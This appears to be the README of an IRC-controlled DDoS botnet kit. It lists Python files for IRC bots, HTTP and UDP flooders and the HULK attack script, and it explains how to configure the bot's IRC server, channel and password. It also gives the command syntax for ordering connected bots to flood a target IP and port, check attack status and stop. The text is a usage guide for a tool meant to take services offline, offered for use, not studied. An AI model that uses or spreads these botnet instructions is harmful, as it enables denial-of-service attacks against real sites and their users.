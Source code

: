 I. File list
------------
irc.py		Class for irc commands
ircbot.py	An irc driven bot
httpflood.py	Launch HTTP attack
udpflood.py	Launch UDP flood
hulk.py		Unbearable HTTP attack from Packetstorm


II. Usage
------------
1. Configure ircbot to the IRC server and channel that is going to be used. Can be changed in 
   the header of ircbot.py
2. Set password that is going to be used to verify commands are coming from controller. Can be
   changed in the header of ircbot.py
3. Start ircbot.py using python 2.7.1+ 
	example: python ircbot.py
4. ircbot will connect to the IRC server and channel specified in the ircbot code. Connect to
   the same channel to start sending commands, using any IRC client.
	example: http://webchat.freenode.net/
5. After connecting to the server the ircbot will listen for commands that
   contains the correct password and are in the correct format. 


III. Supported Commands
------------
<password>hi - bot will reply with 'Hello'
	example: @!!@hi
<password>RollCall - all bot connected to the channel will reply with 'Here!' useful for knowing 
how many bots are connected.
	example: @!!@RollCall
<password>HTTP <ip> <port> <number-of-request> - send HTTP flood to target
	example: @!!@HTTP 10.108.229.24 5000 5
<password>UDP <ip> <port> <length-of-attack> - send UDP flood to target
	example: @!!@UDP 10.108.229.24 5000 30
<password>Hulk <target> - Unleash to hulk of the target
	example: @!!@Hulk http://10.108.229.24:5000/
<password>Stop - stop the attack in progress
	example: @!!@Stop
<password>Status - check the status of the attack
	example: @!!@Status


